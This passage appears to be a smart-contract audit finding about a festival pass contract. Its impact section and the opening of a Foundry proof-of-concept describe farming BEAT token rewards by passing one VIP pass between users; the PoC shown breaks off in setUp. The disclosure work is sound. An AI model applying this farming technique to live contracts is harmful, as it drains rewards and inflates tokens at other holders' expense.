 **Impact**:

* Unlimited reward farming from single pass purchases enables coordinated groups to multiply performance rewards indefinitely (demonstrated: 4x-10x reward multiplication), completely breaking the intended pass-to-reward ratio and causing massive BEAT token inflation.

* Complete bypass of cooldown mechanisms and attendance restrictions through pass lending, allowing rapid reward extraction and undermining all intended rate-limiting protections designed to prevent reward farming abuse.

## Proof of Concept

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.25;

import "forge-std/Test.sol";
import "../src/FestivalPass.sol";
import "../src/BeatToken.sol";
import {console} from "forge-std/console.sol";

/**
 * @title Pass Lending Reward Multiplication PoC
 * @dev Demonstrates how single pass can generate unlimited rewards across multiple users
 *      through strategic pass transfers and coordinated attendance
 * 
 * VULNERABILITY: No ownership tracking during attendance
 *   - hasPass() only checks current balance at time of attendance
 *   - attendPerformance() tracks attendance per user, not per pass
 *   - Single pass can be transferred between users for unlimited reward farming
 * 
 * ATTACK VECTOR:
 *   1. Alice buys 1 VIP pass and attends performance → earns 2x rewards
 *   2. Alice transfers pass to Bob 
 *   3. Bob attends same performance → earns 2x rewards  
 *   4. Bob transfers pass to Charlie → Charlie attends → repeat
 *   5. Single pass generates unlimited rewards across unlimited users
 */
contract PassLendingExploitPoC is Test {
    FestivalPass public festivalPass;
    BeatToken public beatToken;
    
    address public owner;
    address public organizer;
    address public alice;
    address public bob;
    address public charlie;
    address public dave;
    
    // Pass configuration for maximum reward exploitation
    uint256 constant VIP_PRICE = 0.1 ether;
    uint256 constant VIP_MAX_SUPPLY = 1000;
    uint256 constant VIP_PASS = 2;
    uint256 constant VIP_MULTIPLIER = 2; // 2x rewards
    
    uint256 public performanceId;
    uint256 constant BASE_REWARD = 100e18;
    uint256 constant EXPECTED_VIP_REWARD = BASE_REWARD * VIP_MULTIPLIER; // 200 BEAT
    
    function setUp() public {
        owner = makeAddr("owner");
        organizer = makeAddr("organizer");
        alice = makeAddr("alice");
        bob = makeAddr("bob");
```